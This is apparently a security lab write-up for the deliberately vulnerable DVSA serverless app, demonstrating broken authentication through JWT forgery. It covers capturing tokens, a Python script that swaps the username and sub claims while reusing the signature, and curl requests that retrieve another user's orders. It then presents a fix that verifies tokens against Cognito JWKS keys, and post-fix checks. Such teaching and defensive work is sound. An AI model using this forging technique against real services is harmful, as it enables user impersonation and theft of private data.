# Lesson 2: Broken Authentication (JWT Forgery)

## 1. Vulnerability Summary

This lesson demonstrates a **Broken Authentication** vulnerability caused by improper validation of JSON Web Tokens (JWT) in the DVSA order system.

The backend trusted identity claims such as `username` and `sub` from the JWT payload without verifying whether the token was genuinely issued by the trusted identity provider. Because of this, an attacker can modify the JWT payload, swap in another user's identity, and make the system treat them as that user.

The impact is **user impersonation and unauthorized access to another user's private order data** — without ever knowing the victim's password.

The affected component is the `DVSA-ORDER-MANAGER` Lambda function (`order-manager.js`), which reads identity fields directly from the decoded JWT payload without verifying the token signature.

---

## 2. Root Cause

A JWT has three parts: header, payload, and signature. The signature is the cryptographic proof that the token was issued by a trusted identity provider and has not been modified.

The vulnerable application:
- Decoded the JWT payload using base64
- Trusted `username` and `sub` directly from the decoded payload
- Never verified the signature against Cognito's public keys

This means an attacker can:
1. Decode any valid JWT payload
2. Replace `username` and `sub` with the victim's identity
3. Re-encode the payload
4. Reuse the original signature (which no longer matches — but the backend never checks)
5. Send the forged token and receive the victim's data

---

## 3. Environment

| Item | Value |
|---|---|
| Application | DVSA |
| AWS Region | `us-east-1` |
| API Endpoint | `POST https://d0xsecb8a2.execute-api.us-east-1.amazonaws.com/dvsa/order` |
| Lambda Function | `DVSA-ORDER-MANAGER` |
| File Modified | `order-manager.js` |
| AWS Services | API Gateway, AWS Lambda, Amazon Cognito |
| Tools Used | Browser DevTools (Chrome), Terminal (`curl`, `python3`, `jq`) |

---

## 4. Prerequisites

Before starting:

1. Install the required tools

   On macOS:
   ```bash
   brew install curl jq python
   ```

   On Linux:
   ```bash
   sudo apt-get install -y curl python3 jq
   ```

2. Have access to the DVSA application
3. Create **two non-admin accounts**: User B (attacker) and User C (victim)
4. Both users must have placed at least one order

**Evidence — tool installation:**



---

## 5. Step-by-Step Reproduction

### Step 1: Create Accounts and Place Orders

1. Open DVSA in the browser
2. Register **User B** (attacker account) and **User C** (victim account)
3. Log in as each user and place at least one order
4. You will need: `TOKEN_B`, `TOKEN_C`, and User C's order ID (`ORDER_C`)

---

### Step 2: Capture Tokens from Browser DevTools

Log in as **User B** and open the Orders page.

1. Open DevTools (`F12`) → **Network** tab → filter by `order`
2. Click the `/order` request
3. Go to **Headers** → **Request Headers**
4. Copy the full `Authorization` header value → save as `TOKEN_B`
5. Copy the **Request URL** → save as `API`
6. Repeat the same process logged in as **User C** → save as `TOKEN_C`

Then export these as environment variables in your terminal:

```bash
export API="https://d0xsecb8a2.execute-api.us-east-1.amazonaws.com/dvsa/order"
export TOKEN_B="<paste User B JWT here>"
export TOKEN_C="<paste User C JWT here>"
```

**Evidence — API Request URL:**



**Evidence — TOKEN_B captured from DevTools:**



**Evidence — TOKEN_C captured from DevTools:**



Now decode both tokens to extract the identity fields. Run this in your terminal:

```bash
python3 - <<'PY'
import os, json, base64

def decode(token):
    payload = token.split(".")[1]
    payload += "=" * (-len(payload) % 4)
    return json.loads(base64.urlsafe_b64decode(payload.encode()))

for name in ["TOKEN_B","TOKEN_C"]:
    data = decode(os.environ[name])
    print("\n" + name)
    print("username:", data.get("username"))
    print("sub     :", data.get("sub"))
PY
```

Copy User C's `username` and `sub` values and export them:

```bash
export VICTIM_USER="<User C username/sub value>"
```

**Evidence — decoded identity fields for both users:**



---

### Step 3: Confirm Normal Behavior (Baseline)

Using User B's original token, confirm that the API only returns User B's own orders:

```bash
curl -s "$API" \
  -H "content-type: application/json" \
  -H "authorization: $TOKEN_B" \
  --data-raw '{"action":"orders"}' | jq
```

**Expected result:** Only User B's orders are returned. User C's data is not visible.

**Evidence — User B's orders with legitimate token:**



---

### Step 4: Forge the JWT Token

This step takes TOKEN_B's header and signature, replaces the payload with User C's identity, and re-encodes the token.

Run in your terminal:

```bash
export FAKE_AS_C="$(
python3 - <<'PY'
import os, json, base64

t = os.environ["TOKEN_B"]
victim = os.environ["VICTIM_USER"]

h,p,s = t.split(".")
p += "=" * (-len(p) % 4)
data = json.loads(base64.urlsafe_b64decode(p.encode()))

data["username"] = victim
data["sub"] = victim

newp = base64.urlsafe_b64encode(
    json.dumps(data, separators=(",",":")).encode()
).rstrip(b"=").decode()

print(f"{h}.{newp}.{s}")
PY
)"
echo "Forged token length: ${#FAKE_AS_C}"
```

The script is also available as [`broken_auth_test.py`](broken_auth_test.py) for reference and documentation.

**Evidence — forged token generated successfully:**



---

### Step 5: Use the Forged Token to Access Victim's Orders

Send the forged token to the Orders API:

```bash
curl -s "$API" \
  -H "content-type: application/json" \
  -H "authorization: $FAKE_AS_C" \
  --data-raw '{"action":"orders"}' | jq
```

**Expected result:** The API returns **User C's** private order list — not User B's.

Returned victim order details:
- `order-id`: `de2c6970-56fc-4b61-8cc5-ef2faf5f4060`
- `total`: `44`
- `status`: `delivered`

This proves the backend accepted the forged token and returned protected data without any signature validation.

```bash
export ORDER_C="de2c6970-56fc-4b61-8cc5-ef2faf5f4060"
```

**Evidence — User C's orders returned using forged token:**





---

### Step 6: Attempt Full Order Detail Retrieval

Try to retrieve the full details of User C's order using the forged token:

```bash
curl -i "$API" \
  -H "content-type: application/json" \
  -H "authorization: $FAKE_AS_C" \
  --data-raw "{\"action\":\"get\",\"order-id\":\"$ORDER_C\",\"isAdmin\":\"false\"}"
```

**Result:** The API returns an internal server error:

```
AttributeError: 'bool' object has no attribute 'lower'
```

This is a backend bug in how the Lambda handles the `isAdmin` field — not a fix. The exploit was already fully proven in Step 5. This step shows the attacker attempted further escalation.

**Evidence — backend error during order detail retrieval:**



---

## 6. Attack Result Summary (Before Fix)

| What was attempted | Result |
|---|---|
| Access User B's own orders with TOKEN_B | Succeeded (expected behavior) |
| Forge TOKEN_B payload with User C's identity | Succeeded — token accepted by backend |
| Retrieve User C's private order list | Succeeded — victim data returned |
| Retrieve full order details with forged token | Partial — backend bug blocked further access |

The core vulnerability is confirmed: the backend accepted a tampered JWT and returned another user's private data.

---

## 7. Fix Strategy

The fix must be applied inside `DVSA-ORDER-MANAGER` (`order-manager.js`):

- **Verify JWT signature** using Cognito's JWKS public keys before trusting any claims
- **Validate required claims** such as `iss`, `exp`, `aud`, and `token_use`
- **Reject tampered, expired, or unverifiable tokens** with HTTP 401
- **Never use decoded JWT payload fields** for authorization decisions without prior signature verification

---

## 8. Code / Config Changes

**Location:** `DVSA-ORDER-MANAGER` → `order-manager.js`

### What was added

Three JWT verification helper functions were added to `order-manager.js`:

- `fetchJson(url)` — fetches the Cognito JWKS public key endpoint
- `getCognitoKeystore()` — fetches and caches Cognito's public keys
- `verifyCognitoJwt(jwt)` — verifies the token signature and validates claims (`iss`, `exp`, `token_use`)

**Evidence — JWT verification helper functions added:**



### How the authentication flow changed

**Before (vulnerable):**
```javascript
// Split token manually, base64 decode payload, trust claims directly
var token_sections = auth_header.split('.');
var auth_data = jose.util.base64url.decode(token_sections[1]);
var token = JSON.parse(auth_data);
var user = token.username;  // trusted without verification
```

**After (secure):**
```javascript
// Verify signature using Cognito public keys, then use verified claims
verifyCognitoJwt(jwt).then((claims) => {
    var user = claims.username || claims["cognito:username"] || claims.sub;
    // ... rest of handler only runs if verification passed
}).catch((e) => {
    console.log("JWT verify failed:", e);
    return callback(null, resp(401, { status: "err", msg: "invalid token" }));
});
```

**Evidence — secure claims validation after verification:**



**Evidence — invalid token response on verification failure:**



If verification fails for any reason (tampered payload, wrong signature, expired token), the system returns:

```json
{"status": "err", "msg": "invalid token"}
```

---

## 9. Verification After Fix

Send the same forged token again after deploying the fix:

```bash
curl -s "$API" \
  -H "content-type: application/json" \
  -H "authorization: $FAKE_AS_C" \
  --data-raw '{"action":"orders"}' | jq
```

**Expected result after fix:**

```json
{
  "status": "err",
  "msg": "invalid token"
}
```

The forged token is rejected because the signature no longer matches the modified payload. User C's orders are not returned.

**Evidence — forged token rejected after fix:**



**What changed:** Before the fix, the backend read `username` directly from the decoded payload. After the fix, it calls `verifyCognitoJwt()` first. Since the forged token has a mismatched signature, verification fails and the request is rejected before any data is returned.

---

## 10. Security Analysis

### Intended Logic

Under normal conditions, a user logs in through Cognito, receives a signed JWT, and uses it to access their own orders. The expected flow:

```
Browser → Cognito (login) → JWT issued with signature
User → API Gateway → Lambda (verify JWT signature) → DynamoDB (fetch user's orders)
```

**Security rules the system must enforce:**
- JWT signature must be verified against Cognito's public keys before trusting any claims
- User identity must never be determined from an unverified, client-controlled payload
- A token with a mismatched signature must be rejected immediately

---

### Table 1 — Intended vs. Observed Behavior

| Vulnerability | Intended Rule(s) | Artifacts Used | Normal Behavior Evidence | Exploit Behavior Evidence |
|---|---|---|---|---|
| Broken Authentication (JWT Forgery) | Only a valid, cryptographically verified JWT should determine user identity. User B must only access their own orders. | Browser DevTools (captured tokens), terminal `curl` output, decoded JWT payloads, forged token response, `order-manager.js` source code | Using TOKEN_B, the API returned only User B's own orders — proving correct access control under normal conditions (`step3_user_b_orders.png`) | After modifying the JWT payload and reusing the original signature, the forged token returned User C's private order list — proving the backend trusted the payload without signature verification (`step5_victim_orders_returned.png`) |

---

### Table 2 — Deviation Analysis and Fix

| Vulnerability | Why This Is a Deviation | Deviation Class | Fix Applied | Post-Fix Verification | Latency |
|---|---|---|---|---|---|
| Broken Authentication (JWT Forgery) | The backend trusted identity claims (`username`, `sub`) from the JWT payload without verifying the token signature. This violated the intended rule because attacker-controlled claims were used for authorization decisions, enabling impersonation of any user whose identity the attacker could discover. | Intentional Misuse / Security-Relevant Abuse | JWT signature verification (`verifyCognitoJwt()`) added to `order-manager.js` using Cognito JWKS public keys. All claim validation happens before `username` or `sub` is trusted. | Forged token returns `{"status":"err","msg":"invalid token"}`. Victim data no longer accessible. Legitimate tokens still work normally. (`step8_post_fix_invalid_token.png`) | ~120 ms / ~128 ms |

---

## 11. Lessons Learned

JWT payloads are base64-encoded, not encrypted — anyone can decode and modify them. The only thing that makes a JWT trustworthy is its cryptographic signature.

When the backend skips signature verification and reads identity fields directly from the payload, it is effectively trusting the user to tell it who they are. This is the same as having no authentication at all for any attacker who holds a valid token.

In serverless environments this is especially dangerous because a single Lambda function often controls access to all of a user's data. Compromising authentication at the API layer means every piece of that user's data — orders, receipts, billing records — becomes accessible.

The correct principle is simple: **never trust a JWT claim until the signature has been verified**. Once `verifyCognitoJwt()` is in place, the system moves from trusting attacker-controlled input to trusting cryptographically verified server-side identity, and token forgery becomes impossible.

---

## Repository Structure

```
lesson2_broken_auth/
│
├── README.md                          <- This file
├── broken_auth_test.py                <- Python script to decode and forge JWT (reference/documentation)
└── evidence/
    ├── step1_tool_setup.png           <- Tool installation (brew install curl jq python)
    ├── step2_request_url.png          <- API endpoint captured from DevTools
    ├── step2_token_b.png              <- TOKEN_B Authorization header from DevTools
    ├── step2_token_c.png              <- TOKEN_C Authorization header from DevTools
    ├── step2_decode_identities.png    <- Decoded username/sub for both users
    ├── step3_user_b_orders.png        <- Normal behavior: User B sees only own orders
    ├── step4_forge_token.png          <- Forged token generated successfully
    ├── step5_victim_orders_returned.png  <- Forged token returns User C's orders
    ├── step5_victim_orders_confirmed.png <- Same result confirmed again
    ├── step6_backend_error.png        <- Backend error during full order detail attempt
    ├── fix_jwt_helper_functions.png   <- Code: JWT verification helper functions added
    ├── fix_jwt_claims_validation.png  <- Code: verifyCognitoJwt() claim validation
    ├── fix_invalid_token_response.png <- Code: catch block returning invalid token
    └── step8_post_fix_invalid_token.png  <- Post-fix: forged token rejected with invalid token
```
